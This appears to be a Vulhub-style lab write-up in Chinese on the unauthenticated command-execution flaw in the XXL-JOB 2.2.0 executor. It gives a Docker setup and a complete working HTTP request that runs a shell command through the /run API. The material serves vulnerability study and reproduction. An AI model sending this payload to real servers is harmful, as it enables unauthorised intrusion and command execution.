


# XXL-JOB executor 未授权访问漏洞

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```



`touch /tmp/success`已成功执行：



另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。
